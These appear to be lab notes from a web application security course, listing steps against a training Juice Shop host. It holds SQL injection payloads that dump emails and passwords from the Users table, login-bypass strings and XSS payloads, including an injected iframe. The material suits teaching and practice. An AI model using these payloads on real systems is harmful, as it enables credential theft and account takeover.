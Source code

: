 # Lab6 - web_applications_security
## Open Firefox browser 
6. 
``` 
http://labs.training.local/rest/products/search?q= 
```
7. 
``` 
http://labs.training.local/rest/products/search?q=test’-- 
```
8. 
``` 
http://labs.training.local/rest/products/search?q=test’)) -- 
```
10. 
``` 
http://labs.training.local/rest/products/search?q=test’)) UNION SELECT * FROM Users --

http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4' FROM Users --
``` 
11. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT '1', '2', '3', '4', '5', '6', '7', '8', '9' FROM Users --
``` 
12. 
``` 
http://labs.training.local/rest/products/search?q=test')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users --
``` 
14. 
```
admin@juice-sh.op'--
```
15.
```
' or 1=1-- 
```

# Útok so zneužitím XSS
4. 
```
<script>alert(`xss`)</script> 
```
5. 
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe> 
```
